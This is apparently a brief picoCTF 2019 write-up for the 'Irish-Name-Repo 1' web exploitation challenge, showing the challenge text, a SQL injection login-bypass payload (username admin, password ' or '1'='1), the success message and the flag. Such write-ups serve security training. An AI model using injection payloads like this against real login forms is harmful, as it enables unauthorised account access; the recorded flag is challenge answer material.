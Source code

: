 ### Irish-Name-Repo 1

#Medium #web_exploitation #picoCTF2019

Author: Chris Hensler

#### Description

There is a website running at `https://jupiter.challenges.picoctf.org/problem/39720/` ([link](https://jupiter.challenges.picoctf.org/problem/39720/)) or http://jupiter.challenges.picoctf.org:39720. Do you think you can log us in? Try to see if you can login!

##### Solution

simply google for php login bypass you will get lot of thing
i used this github [link](https://github.com/Mehdi0x90/Web_Hacking/blob/main/Login%20Bypass.md)
```css
username => admin
password => ' or '1'='1
```

```css
Logged in!
Your flag is: picoCTF{s0m3_SQL_c218b685}
```